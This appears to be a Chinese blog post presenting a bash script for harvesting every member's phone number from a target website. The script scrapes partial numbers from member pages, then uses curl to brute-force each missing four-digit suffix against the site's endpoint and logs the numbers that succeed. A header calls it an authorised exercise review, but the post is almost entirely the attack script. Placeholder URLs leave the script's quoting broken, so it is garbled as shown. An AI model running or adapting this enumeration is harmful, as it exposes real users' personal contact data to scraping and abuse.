

# 撞出 www.目标示例 全部会员联系测试联系数据实现

> 原文：[撞出 www.目标示例 全部会员联系测试联系数据实现](https://ji-shu-jian-li.gitbook.io/ben_bird/zhuang-chu-www.90tiyu.com-quan-bu-hui-yuan-lian-xi-dian-hua-hao-ma-shi-xian.md)

> 归档性质：比赛结束后的授权安全演练复盘；正文中的凭据和联系信息已脱敏，图片保留比赛复盘原帖。

#### &#x20;<a href="#zhuang-chu-www.目标示例-quan-bu-hui-yuan-lian-xi-dian-hua-hao-ma-shi-xian" id="zhuang-chu-www.目标示例-quan-bu-hui-yuan-lian-xi-dian-hua-hao-ma-shi-xian"></a>

#### <示例地址>撞出 [www.目标示例](示例地址) 全部会员联系测试联系数据实现 <a href="#zhuang-chu-www.目标示例-quan-bu-hui-yuan-lian-xi-dian-hua-hao-ma-shi-xian" id="zhuang-chu-www.目标示例-quan-bu-hui-yuan-lian-xi-dian-hua-hao-ma-shi-xian"></a>


[原始媒体链接已归档]




```bash
#!/bin/bash
lynx -dump "示例地址 | grep php | awk '{print $2}' | parallel -j 30 -k lynx -dump {} | grep mobile | awk '{print $2}' | sed "s/............................//" > phone
for p in `cat phone | sed "s/.html//"`;do
    for n in `echo $p | awk -F'_' '{print $2}'`;do
        for a in {0..9}{0..9}{0..9}{0..9};do
            echo "$n$a 撞库中..."
            curl -s "示例地址 | jq | grep 操作成功
            if [ $? = 0 ];then echo "`date "+%Y-%m-%d %H:%M:%S"` $n$a" ;else echo "`date "+%Y-%m-%d %H:%M:%S"` $n$a" >> zk撞库.txt; fi
        done
    done >> `echo "$p" | awk -F'_' '{print $1}'`撞库操作成功.txt
done
```
